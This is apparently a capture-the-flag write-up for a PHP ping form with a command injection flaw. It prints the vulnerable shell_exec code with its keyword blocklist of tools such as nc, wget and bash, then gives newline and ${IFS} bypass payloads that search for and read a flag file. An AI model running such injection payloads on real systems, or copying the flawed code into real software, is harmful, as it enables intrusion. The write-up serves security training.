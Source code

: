 # Introduction
This is a Web Challange that has source code of php that we need to analyaze to get CI ( Command Injection )

## Challange Discription

Description

Author: onsra

Remote Access: Click Here!

Static resources: [Source_Code](../resources/Bing2/)

## Step1

When we go to source code we see a php code as follow:

```php
<?php

if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);

	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);

	$target = str_replace(array_keys($substitutions), $substitutions, $target);

	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
		
	}
}
```

As we see, the php code accepts a **POST** request with 2 parameters 

1 ) Submit                  
2 ) ip

Parameter **ip** is vulnerable to Command Injections since there is not good enough user input sanitization in place


## Step2

Sanitization bypass: since the php code almost got everything from us, it forgot to scape asscii characters that has meaninful impact like **LF** ( %0a )

![](../assets/Bing2_1.png)


So we use **%0a** to scape the sanitization and for spaces we use **${IFS}**

First we locat flag with following payload :

```bash
ip=8.8.8.8%0afind${IFS}/${IFS}name${IFS}fla*&Submit=Submit
```

![](../assets/Bing2_2.png)

Then we read flag with following payload :

```bash
ip=8.8.8.8%0ahead${IFS}/fla*&Submit=Submit
```

![](../assets/Bing2_3.png)
